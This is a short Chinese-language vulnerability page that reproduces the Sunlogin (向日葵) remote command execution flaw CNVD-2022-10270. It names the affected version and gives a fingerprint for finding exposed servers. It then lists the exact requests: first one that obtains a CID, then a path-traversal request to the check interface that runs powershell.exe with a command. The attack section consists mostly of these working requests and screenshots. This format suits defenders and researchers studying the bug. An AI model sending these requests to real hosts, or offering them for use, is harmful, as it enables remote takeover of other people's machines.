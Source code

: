 ```yaml
---
Title: 向日葵 check 远程命令执行漏洞 CNVD-2022-10270
---
```


# 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

<a-checkbox checked>11.0.0.33162</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="Verification failure"</a-checkbox></br>

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645007224265-6dd3bed6-0d66-433d-96db-2532796ded2a.png)

发送请求获取CID

```javascript
/cgi-bin/rpc?action=verify-haras
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645007276844-29bf52d8-e4c4-4ece-8d9e-a5e2386de7c2.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```javascript
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645007355798-42ab03f8-8652-4daf-a4c3-29938ce2f000.png)